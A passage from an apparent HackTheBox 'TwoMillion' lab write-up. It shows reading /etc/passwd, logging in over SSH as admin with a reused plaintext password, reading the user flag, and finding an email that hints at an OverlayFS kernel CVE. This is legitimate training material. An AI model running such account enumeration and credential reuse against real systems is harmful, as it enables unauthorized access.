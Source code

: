 The /etc/passwd file reveals that there is indeed a user on the system called `admin`:

```bash
www-data@2million:~/html$ cat /etc/passwd

<SNIP>

admin:x:1000:1000::/home/admin:/bin/bash
memcache:x:115:121:Memcached,,,:/nonexistent:/bin/false
_laurel:x:998:998::/var/log/laurel:/bin/false
```

Owed to password re-use we can login as admin over [SSH](../../../3%20-%20Tags/Hacking%20Concepts/SSH.md) with `SuperDuperPass123`:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/TwoMillion]
└─$ ssh admin@2million.htb 

admin@2million:~$ sudo -l

[sudo] password for admin: 
Sorry, user admin may not run sudo on localhost.
```

The user flag can be found in `/home/admin`:

```bash
admin@2million:~$ ls
user.txt
admin@2million:~$ cat user.txt 
 HTB{{REDACTED_FLAG}}
```
## Admin to Root

Enumeration of the current user's mails in /var/mail reveals a file called admin , which contains all the
emails for our current user. Let's read it:

```
admin@2million:/var/mail$ cat admin                                                                     
From: ch4p <ch4p@2million.htb>                                                                          
To: admin <admin@2million.htb>                                                                          
Cc: g0blin <g0blin@2million.htb>                                                                        
Subject: Urgent: Patch System OS                                                                        
Date: Tue, 1 June 2023 10:45:22 -0700                                                                   
Message-ID: <9876543210@2million.htb>                                                                   
X-Mailer: ThunderMail Pro 5.2                                                                           
                                                                                                        
Hey admin,                                                                                              

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```
